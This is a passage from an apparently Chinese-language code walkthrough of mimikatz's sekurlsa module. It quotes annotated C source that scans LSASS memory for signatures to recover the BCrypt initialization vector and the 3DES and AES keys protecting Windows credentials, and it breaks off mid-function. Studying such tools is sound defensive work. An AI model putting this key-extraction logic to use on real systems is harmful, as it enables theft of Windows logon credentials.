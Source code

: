 Extract BCrypt Key &amp; Vector
-------------------------------

跟进 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数：

- sekurlsa\\crypto\\kuhl\_m\_sekurlsa\_nt6.c

```c++
KIWI_BCRYPT_GEN_KEY k3Des, kAes;
BYTE InitializationVector[16];
// ......
NTSTATUS kuhl_m_sekurlsa_nt6_acquireKeys(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION lsassLsaSrvModule)
{
    NTSTATUS status = STATUS_NOT_FOUND;
    KULL_M_MEMORY_ADDRESS aLsassMemory = {NULL, cLsass->hLsassMem}, aLocalMemory = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_SEARCH sMemory = {{{lsassLsaSrvModule->DllBase.address, cLsass->hLsassMem}, lsassLsaSrvModule->SizeOfImage}, NULL};
#if defined(_M_X64)
    LONG offset64;
#endif
    PKULL_M_PATCH_GENERIC currentReference;
    if(currentReference = kull_m_patch_getGenericFromBuild(PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef, ARRAYSIZE(PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef), cLsass->osContext.BuildNumber))
    {
        aLocalMemory.address = currentReference->Search.Pattern;
        // 根据特征码获取 LsaInitializeProtectedMemory_KeyRef 的地址
        if(kull_m_memory_search(&aLocalMemory, currentReference->Search.Length, &sMemory, FALSE))
        {
            // 特征码的地址加上偏移量 off0 到达保存 InitializationVector 偏移量的那四个字节的地址
            aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off0;
            #if defined(_M_ARM64)
            // ......
            #elif defined(_M_X64)
            aLocalMemory.address = &offset64;
            // 获取包含 InitializationVector 偏移量的那四个字节的内容，并把加到特征码的地址上，最终得到了 InitializationVector 的绝对地址
            if(kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(LONG)))
            {
                aLsassMemory.address = (PBYTE) aLsassMemory.address + sizeof(LONG) + offset64;
            #elif defined(_M_IX86)
            // ......
            #endif
                 // 全局变量 InitializationVector 中将存储初始化向量
                aLocalMemory.address = InitializationVector;   
                if(kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(InitializationVector)))
                {
                    // 特征码的基地址加上偏移量 off1 到达保存 h3DesKey 偏移量的那四个字节的地址
                    aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off1;
                    if(kuhl_m_sekurlsa_nt6_acquireKey(&aLsassMemory, &cLsass->osContext, &k3Des, 
                        #if defined(_M_ARM64)
                        currentReference->Offsets.armOff1
                        #else
                        0
                        #endif
                        ))
                    {
                        aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off2;
                        if(kuhl_m_sekurlsa_nt6_acquireKey(&aLsassMemory, &cLsass->osContext, &kAes,
                            #if defined(_M_ARM64)
                            currentReference->Offsets.armOff2
                            #else
                            0
                            #endif
```